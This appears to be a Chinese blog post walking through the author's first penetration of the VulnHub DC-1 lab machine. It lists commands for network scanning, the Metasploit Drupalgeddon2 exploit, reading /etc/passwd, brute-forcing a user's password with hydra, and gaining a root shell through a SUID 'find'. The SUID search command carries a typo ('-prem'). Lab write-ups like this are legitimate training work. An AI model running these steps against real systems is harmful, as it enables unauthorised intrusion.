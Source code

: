 ```yaml
---
layout: post
title: "DC-1"
date: 2019-9-14
description: "我的第一次渗透DC-1"
tag: 渗透
---
```




## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP
![arp-scan](../images/posts/DC-1-1/arp.png)
出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了
![nmap](../images/posts/DC-1-1/nmap.png)
看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

![search](../images/posts/DC-1-1/search.png)
选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

![show](../images/posts/DC-1-1/show.png)
设置required为yes的参数，GO！！！

### 成功获取到shell

![shell](../images/posts/DC-1-1/shell.png)

+ `cat /etc/passwd`查看电脑上有哪些用户

![passwd](../images/posts/DC-1-1/passwd.png)
看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .
![hydra](../images/posts/DC-1-1/hydra.png)看到密码为orange
![hint](../images/posts/DC-1-1/hint.png)
官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

![root](../images/posts/DC-1-1/root.png)
#### 我的第一次靶机渗透成功
![success](../images/posts/DC-1-1/success.png)

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
